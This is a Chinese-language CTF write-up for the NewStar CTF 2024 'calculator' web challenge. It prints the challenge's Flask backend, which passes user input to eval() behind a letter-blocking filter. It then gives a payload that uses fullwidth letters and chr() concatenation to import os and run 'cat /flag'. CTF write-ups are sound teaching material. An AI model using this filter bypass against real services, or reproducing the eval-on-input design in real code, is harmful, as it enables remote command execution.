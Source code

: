 ```yaml
---
titleTemplate: ":title | WriteUp - NewStar CTF 2024"
---
```


# 臭皮的计算器

开发者工具查看网页源码

![源码](/assets/images/wp/2024/week3/jisuanqi_1.png)

根据提示进入 `/calc` 路由，查看网页源码

![calc 源码](/assets/images/wp/2024/week3/jisuanqi_2.png)

得到了 Python 后端源码

```python
from flask import Flask, render_template, request
import uuid
import subprocess
import os
import tempfile

app = Flask(__name__)
app.secret_key = str(uuid.uuid4())

def waf(s):
    token = True
    for i in s:
        if i in "abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ":
            token = False
            break
    return token

@app.route("/")
def index():
    return render_template("index.html")

@app.route("/calc", methods=['POST', 'GET'])
def calc():

    if request.method == 'POST':
        num = request.form.get("num")
        script = f'''import os
print(eval("{num}"))
'''
        print(script)
        if waf(num):
            try:
                result_output = ''
                with tempfile.NamedTemporaryFile(mode='w+', suffix='.py', delete=False) as temp_script:
                    temp_script.write(script)
                    temp_script_path = temp_script.name

                result = subprocess.run(['python3', temp_script_path], capture_output=True, text=True)
                os.remove(temp_script_path)

                result_output = result.stdout if result.returncode == 0 else result.stderr
            except Exception as e:

                result_output = str(e)
            return render_template("calc.html", result=result_output)
        else:
            return render_template("calc.html", result="臭皮！你想干什么！！")
    return render_template("calc.html", result='试试呗')

if __name__ == "__main__":
    app.run(host='0.0.0.0', port=30002)
```

审计发现过滤了所有字母，使用全角英文和 `chr()` 字符拼接（或八进制）即可绕过

```python
_＿ｉｍｐｏｒｔ_＿(ｃｈｒ(111)+ｃｈｒ(115)).ｓｙｓｔｅｍ(ｃｈｒ(99)+ｃｈｒ(97)+ｃｈｒ(116)+ｃｈｒ(32)+ｃｈｒ(47)+ｃｈｒ(102)+ｃｈｒ(108)+ｃｈｒ(97)+ｃｈｒ(103))
```

其中 `111 115` 分别对应 `os` 的 ASCII 码，`99 97 116 32 47 102 108 97 103` 分别对应 `cat /flag` 的 ASCII 码

::: warning 注意
发包的时候，加号要做转义处理，否则会被视作空格
:::
